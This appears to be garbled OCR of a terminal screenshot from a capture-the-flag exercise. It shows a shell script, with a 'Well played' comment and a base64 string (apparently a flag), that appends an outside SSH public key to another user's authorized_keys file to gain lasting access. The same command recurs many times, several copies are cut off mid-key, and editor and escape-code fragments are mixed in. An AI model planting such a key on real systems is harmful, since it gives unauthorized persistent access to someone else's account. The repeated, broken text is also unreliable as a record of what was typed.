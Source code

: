 ```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_k`
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys
RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys
#!/bin/sh                                                                       # Well played : c2hrQ1RGe3JjLmwwYzRsXzFzX2Z1bm55X2JlMjQ3MmNmYWVlZDQ2N2VjOWNhYjViNWEzOGU1ZmEwfQo=                                                                echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxa8zsyblvEoajgtqciK2XAs1UwNAeV3RcXacqicjzuad2jH7JQdIaqVW4jfEt8h7w+Rei1kZL/xqikGS/AGb2ZLqVSUKWF9afaeE850On4+c1A0wu9n/7N/t2QSnw71BZnvH35+qgENJzFGgFxJEsvZqbawFHD8B426qKFYD+LMAnnFtnrzFj8U+cewG6ODl0Obe8yP/Awv0HYFdhK/IY+t7u2Ywrgp3bXF1l5m+Zk40BqpEYfFzhawYOc/tar1HqaJnYdvqHjwhZeDGYkILvYt4veVc/DjVPX1UjLvlpWv1/AhmLAWgWyUORBwDjM5km0HjN/CY5kWoasXgd1jHD tw0phi@workstation" >> /home/k3vin/.ssh/authorized_keys && chmod 600 /home/k3vin/.ssh/authorized_keys                                                                        ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~                                                                               ~               ,
[m /home/k3vin/.ssh/authorized_keys && 
`authorized_keys
.authorized_keys.swp
[m /home/k3vin/.ssh/authorized_keys && 
authorized_keys
[m /home/k3vin/.ssh/authorized_keys && 
```
